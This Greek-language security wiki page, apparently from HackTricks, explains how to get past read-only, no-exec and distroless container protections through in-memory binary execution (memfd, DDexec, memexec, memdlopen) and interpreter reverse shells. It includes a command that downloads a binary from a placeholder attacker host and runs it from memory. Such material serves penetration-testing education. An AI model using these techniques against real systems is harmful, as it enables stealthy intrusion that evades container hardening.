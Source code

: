# Παράκαμψη προστασιών FS: μόνο για ανάγνωση / χωρίς εκτέλεση / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## Βίντεο

Στα παρακάτω βίντεο μπορείτε να βρείτε τις τεχνικές που αναφέρονται σε αυτή τη σελίδα εξηγημένες πιο αναλυτικά:

- [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## σενάριο μόνο για ανάγνωση / χωρίς εκτέλεση

Είναι όλο και πιο συνηθισμένο να βρίσκουμε μηχανές linux που είναι τοποθετημένες με **προστασία συστήματος αρχείων μόνο για ανάγνωση (ro)**, ειδικά σε κοντέινερ. Αυτό συμβαίνει γιατί η εκτέλεση ενός κοντέινερ με σύστημα αρχείων ro είναι τόσο εύκολη όσο η ρύθμιση του **`readOnlyRootFilesystem: true`** στο `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ωστόσο, ακόμα και αν το σύστημα αρχείων είναι τοποθετημένο ως ro, το **`/dev/shm`** θα είναι ακόμα εγ writable, οπότε είναι ψευδές ότι δεν μπορούμε να γράψουμε τίποτα στο δίσκο. Ωστόσο, αυτός ο φάκελος θα είναι **τοποθετημένος με προστασία χωρίς εκτέλεση**, οπότε αν κατεβάσετε ένα δυαδικό αρχείο εδώ **δεν θα μπορείτε να το εκτελέσετε**.

> [!WARNING]
> Από την προοπτική μιας κόκκινης ομάδας, αυτό καθιστά **πολύπλοκο να κατεβάσετε και να εκτελέσετε** δυαδικά αρχεία που δεν είναι ήδη στο σύστημα (όπως backdoors ή enumerators όπως το `kubectl`).

## Ευκολότερη παράκαμψη: Σενάρια

Σημειώστε ότι ανέφερα δυαδικά αρχεία, μπορείτε να **εκτελέσετε οποιοδήποτε σενάριο** εφόσον ο διερμηνέας είναι μέσα στη μηχανή, όπως ένα **shell script** αν το `sh` είναι παρόν ή ένα **python** **script** αν το `python` είναι εγκατεστημένο.

Ωστόσο, αυτό δεν είναι αρκετό για να εκτελέσετε την πίσω πόρτα σας ή άλλα δυαδικά εργαλεία που μπορεί να χρειαστεί να τρέξετε.

## Παράκαμψη Μνήμης

Αν θέλετε να εκτελέσετε ένα δυαδικό αρχείο αλλά το σύστημα αρχείων δεν το επιτρέπει, ο καλύτερος τρόπος να το κάνετε είναι να **το εκτελέσετε από τη μνήμη**, καθώς οι **προστασίες δεν ισχύουν εκεί**.

### Παράκαμψη FD + exec syscall

Αν έχετε μερικές ισχυρές μηχανές σεναρίων μέσα στη μηχανή, όπως **Python**, **Perl** ή **Ruby**, μπορείτε να κατεβάσετε το δυαδικό αρχείο για να το εκτελέσετε από τη μνήμη, να το αποθηκεύσετε σε έναν περιγραφέα αρχείου μνήμης (`create_memfd` syscall), ο οποίος δεν θα προστατεύεται από αυτές τις προστασίες και στη συνέχεια να καλέσετε μια **`exec` syscall** υποδεικνύοντας τον **fd ως το αρχείο προς εκτέλεση**.

Για αυτό μπορείτε εύκολα να χρησιμοποιήσετε το έργο [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Μπορείτε να του περάσετε ένα δυαδικό αρχείο και θα δημιουργήσει ένα σενάριο στη δηλωμένη γλώσσα με το **δυαδικό αρχείο συμπιεσμένο και κωδικοποιημένο σε b64** με τις οδηγίες να **αποκωδικοποιήσετε και να αποσυμπιέσετε** σε έναν **fd** που δημιουργείται καλώντας την `create_memfd` syscall και μια κλήση στην **exec** syscall για να το τρέξετε.

> [!WARNING]
> Αυτό δεν λειτουργεί σε άλλες γλώσσες σεναρίων όπως η PHP ή η Node γιατί δεν έχουν καμία **προεπιλεγμένη μέθοδο για να καλέσουν ωμές syscalls** από ένα σενάριο, οπότε δεν είναι δυνατό να καλέσετε την `create_memfd` για να δημιουργήσετε τον **περιγραφέα μνήμης** για να αποθηκεύσετε το δυαδικό αρχείο.
>
> Επιπλέον, η δημιουργία ενός **κανονικού fd** με ένα αρχείο στο `/dev/shm` δεν θα λειτουργήσει, καθώς δεν θα σας επιτραπεί να το εκτελέσετε επειδή η **προστασία χωρίς εκτέλεση** θα ισχύει.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) είναι μια τεχνική που σας επιτρέπει να **τροποποιήσετε τη μνήμη της δικής σας διαδικασίας** αντικαθιστώντας το **`/proc/self/mem`**.

Επομένως, **ελέγχοντας τον κώδικα συναρμολόγησης** που εκτελείται από τη διαδικασία, μπορείτε να γράψετε ένα **shellcode** και να "μεταλλάξετε" τη διαδικασία για να **εκτελέσετε οποιονδήποτε αυθαίρετο κώδικα**.

> [!TIP]
> **DDexec / EverythingExec** θα σας επιτρέψει να φορτώσετε και να **εκτελέσετε** το δικό σας **shellcode** ή **οποιοδήποτε δυαδικό** από **μνήμη**.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε το Github ή:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) είναι το φυσικό επόμενο βήμα του DDexec. Είναι ένα **DDexec shellcode demonised**, οπότε κάθε φορά που θέλετε να **τρέξετε ένα διαφορετικό δυαδικό** δεν χρειάζεται να επανεκκινήσετε το DDexec, μπορείτε απλά να τρέξετε το memexec shellcode μέσω της τεχνικής DDexec και στη συνέχεια να **επικοινωνήσετε με αυτό το δαίμονα για να περάσετε νέα δυαδικά για φόρτωση και εκτέλεση**.

Μπορείτε να βρείτε ένα παράδειγμα για το πώς να χρησιμοποιήσετε το **memexec για να εκτελέσετε δυαδικά από ένα PHP reverse shell** στο [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Με παρόμοιο σκοπό με το DDexec, η τεχνική [**memdlopen**](https://github.com/arget13/memdlopen) επιτρέπει έναν **ευκολότερο τρόπο φόρτωσης δυαδικών** στη μνήμη για να τα εκτελέσετε αργότερα. Θα μπορούσε να επιτρέψει ακόμη και τη φόρτωση δυαδικών με εξαρτήσεις.

## Distroless Bypass

### Τι είναι το distroless

Τα distroless containers περιέχουν μόνο τα **απαραίτητα ελάχιστα στοιχεία για να τρέξει μια συγκεκριμένη εφαρμογή ή υπηρεσία**, όπως βιβλιοθήκες και εξαρτήσεις χρόνου εκτέλεσης, αλλά αποκλείουν μεγαλύτερα στοιχεία όπως διαχειριστές πακέτων, shell ή συστήματα βοηθητικών προγραμμάτων.

Ο στόχος των distroless containers είναι να **μειώσει την επιφάνεια επίθεσης των containers εξαλείφοντας περιττά στοιχεία** και ελαχιστοποιώντας τον αριθμό των ευπαθειών που μπορούν να εκμεταλλευτούν.

### Reverse Shell

Σε ένα distroless container μπορεί να **μην βρείτε καν `sh` ή `bash`** για να αποκτήσετε μια κανονική shell. Δεν θα βρείτε επίσης δυαδικά όπως `ls`, `whoami`, `id`... όλα όσα συνήθως τρέχετε σε ένα σύστημα.

> [!WARNING]
> Επομένως, **δεν θα** μπορείτε να αποκτήσετε μια **reverse shell** ή να **καταγράψετε** το σύστημα όπως συνήθως κάνετε.

Ωστόσο, αν το παραβιασμένο container τρέχει για παράδειγμα μια εφαρμογή flask, τότε το python είναι εγκατεστημένο, και επομένως μπορείτε να αποκτήσετε μια **Python reverse shell**. Αν τρέχει node, μπορείτε να αποκτήσετε μια Node rev shell, και το ίδιο με σχεδόν οποιαδήποτε **γλώσσα scripting**.

> [!TIP]
> Χρησιμοποιώντας τη γλώσσα scripting θα μπορούσατε να **καταγράψετε το σύστημα** χρησιμοποιώντας τις δυνατότητες της γλώσσας.

Αν δεν υπάρχουν **προστασίες `read-only/no-exec`**, θα μπορούσατε να εκμεταλλευτείτε τη reverse shell σας για να **γράψετε στο σύστημα αρχείων τα δυαδικά σας** και να τα **εκτελέσετε**.

> [!TIP]
> Ωστόσο, σε αυτού του είδους τα containers, αυτές οι προστασίες θα υπάρχουν συνήθως, αλλά θα μπορούσατε να χρησιμοποιήσετε τις **προηγούμενες τεχνικές εκτέλεσης μνήμης για να τις παρακάμψετε**.

Μπορείτε να βρείτε **παραδείγματα** για το πώς να **εκμεταλλευτείτε κάποιες ευπάθειες RCE** για να αποκτήσετε reverse shells γλωσσών scripting και να εκτελέσετε δυαδικά από τη μνήμη στο [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

{{#include ../../../banners/hacktricks-training.md}}
